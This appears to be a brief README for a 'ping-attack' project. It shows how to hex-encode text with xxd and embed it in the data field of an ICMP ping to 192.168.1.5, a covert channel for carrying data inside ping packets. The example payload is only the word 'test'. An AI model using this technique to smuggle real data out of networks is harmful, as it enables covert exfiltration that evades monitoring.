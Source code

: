 # ping-attack

Basic Commands:

'''bash
#This will take the text "test" and convert to hex
echo "test" | xxd -p
#746573740a
#This will ping the ip address and add the hex of "test" into the data field
ping -c 1 192.168.1.5 -p 746573740a
